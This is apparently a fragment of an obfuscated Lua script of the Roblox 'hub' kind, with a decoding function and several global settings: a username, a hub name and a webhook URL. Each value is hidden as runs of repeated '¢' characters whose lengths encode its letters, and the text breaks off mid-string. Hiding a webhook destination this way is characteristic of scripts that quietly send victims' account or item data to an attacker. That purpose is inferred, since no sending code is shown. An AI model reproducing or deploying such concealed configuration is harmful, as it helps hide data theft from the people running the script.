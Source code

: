 function xktXjTvOCzFpVAKAtjIAyYPWVFgFWMGtoEKVeLZXSatmcTzwQHVydLRBuIjPXpaIJdLuARhoqMdWwuuQCzicvGwUGhQscPR(c)
tab={}
for i = 1,#c do
x=string.len(c[i]) 
y=string.char(x)
table.insert(tab,y)
end
x=table.concat(tab)
return x
end 


_G.Username = xktXjTvOCzFpVAKAtjIAyYPWVFgFWMGtoEKVeLZXSatmcTzwQHVydLRBuIjPXpaIJdLuARhoqMdWwuuQCzicvGwUGhQscPR({'¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢'})
_G.HubName = xktXjTvOCzFpVAKAtjIAyYPWVFgFWMGtoEKVeLZXSatmcTzwQHVydLRBuIjPXpaIJdLuARhoqMdWwuuQCzicvGwUGhQscPR({'¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢'})
_G.WebhookUrl = xktXjTvOCzFpVAKAtjIAyYPWVFgFWMGtoEKVeLZXSatmcTzwQHVydLRBuIjPXpaIJdLuARhoqMdWwuuQCzicvGwUGhQscPR({'¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢','¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢¢